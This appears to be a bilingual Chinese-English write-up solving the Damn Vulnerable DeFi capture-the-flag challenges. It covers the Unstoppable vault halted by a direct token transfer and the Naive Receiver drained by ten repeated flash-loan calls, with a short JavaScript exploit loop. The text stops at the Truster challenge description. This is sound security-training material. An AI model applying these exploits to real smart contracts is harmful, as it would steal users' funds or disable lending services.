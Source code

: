 
# Challenge #1 - Unstoppable  
挑战#1 - 势不可挡

There’s a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.  
有一个代币化的金库，存有 100 万个 DVT 代币。它免费提供闪电贷款，直到宽限期结束。

To pass the challenge, make the vault stop offering flash loans.  
要通过挑战，请让金库停止提供闪电贷。

You start with 10 DVT tokens in balance.  
您一开始有 10 个 DVT 代币余额。

### solved
这题我们可以看到函数flashLoan有一个如下条件判断
```
if (convertToShares(totalSupply) != balanceBefore)
revert InvalidBalance(); // enforce ERC4626 requirement
```
也就是说当前合约的铸造币数量如果不等于合约的金额，就会进入这个错误，所以我们只需要向该合约转入金额即可。
涉及EIP 4626 金库(vault)相关
# Challenge #2 - Naive receiver  
挑战 #2 - 幼稚的接收者

There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.  
有一个余额为 1000 ETH 的资金池，提供闪电贷。它的固定费用为 1 ETH。

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.  
用户部署了一份余额为 10 ETH 的合约。它能够与矿池交互并接收 ETH 的闪贷。

Take all ETH out of the user’s contract. If possible, in a single transaction.  
从用户合约中取出所有 ETH。如果可能的话，在一次交易中。

### solved
这题每次闪电贷的费用是1 eth，最后通过的要求是用户合约金额为0，池中的金额为1000+用户金额，所以我们只需要连续10次闪电贷即可。
```
const ETH = await pool.ETH();
var hack = await pool.connect(player);
for (var i = 0; i < 10; i++) {
pool.flashLoan(receiver.address, ETH, 0, 0);
}
```


# Challenge #3 - Truster 挑战 #3 - 信任者 

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.  
越来越多的贷款池提供闪电贷款。在这种情况下，推出了一个新的池，免费提供 DVT 代币的闪电贷。
